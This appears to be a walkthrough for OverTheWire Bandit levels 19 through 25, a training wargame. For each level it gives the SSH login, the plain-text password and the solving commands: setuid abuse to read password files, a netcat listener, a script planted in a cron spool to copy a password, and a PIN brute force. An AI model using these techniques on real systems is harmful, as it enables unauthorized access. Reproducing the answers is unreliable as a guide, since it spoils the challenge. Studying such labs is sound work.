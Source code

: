 ### 20. Level 19 -> 20

```shell
$ ssh -p 2220 bandit19@bandit.labs.overthewire.org
# password: IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x
$ ./bandit20-do cat /etc/bandit_pass/bandit20
```

### 21. Level 20 -> 21

```shell
$ ssh -p 2220 bandit20@bandit.labs.overthewire.org
# password: GbKksEFF4yrVs6il55v6gwY5aVje5f0j
$ nc -l -p 8861 localhost &
$ ./suconnect 8861 &
$ jobs
$ fg 1
# paste the current level password here
# the next level's password will be sent back
```

### 22. Level 21 -> 22

```shell
$ ssh -p 2220 bandit21@bandit.labs.overthewire.org
# password: gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr
$ cat $(cat `cat /etc/cron.d/cronjob_bandit22 | grep 'reboot' | cut -d ' ' -f 3` | grep 'cat' | cut -d ' ' -f 4)
```

### 23. Level 22 -> 23

```shell
$ ssh -p 2220 bandit22@bandit.labs.overthewire.org
# password: Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
$ cat `cat /etc/cron.d/cronjob_bandit23 | grep 'reboot' | cut -d ' ' -f 3`
$ cat /tmp/$(echo I am user bandit23 | md5sum | cut -d ' ' -f 1)
```

### 24. Level 23 -> 24

```shell
$ ssh -p 2220 bandit23@bandit.labs.overthewire.org
# password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
$ cat `cat /etc/cron.d/cronjob_bandit24 | grep 'reboot' | cut -d ' ' -f 3`
$ echo 'cat /etc/bandit_pass/bandit24 > /tmp/42level' > /var/spool/bandit24/cat-password && chmod +x /var/spool/bandit24/cat-password && sleep 61 && cat /tmp/42level
```

### 25. Level 24 -> 25

```shell
$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
# password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
$ cd `mktemp -d`
$ for i in `seq -f "%04g" 0 9999`; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i >> pass.txt; done
$ cat pass.txt | nc localhost 30002 | grep bandit25
```
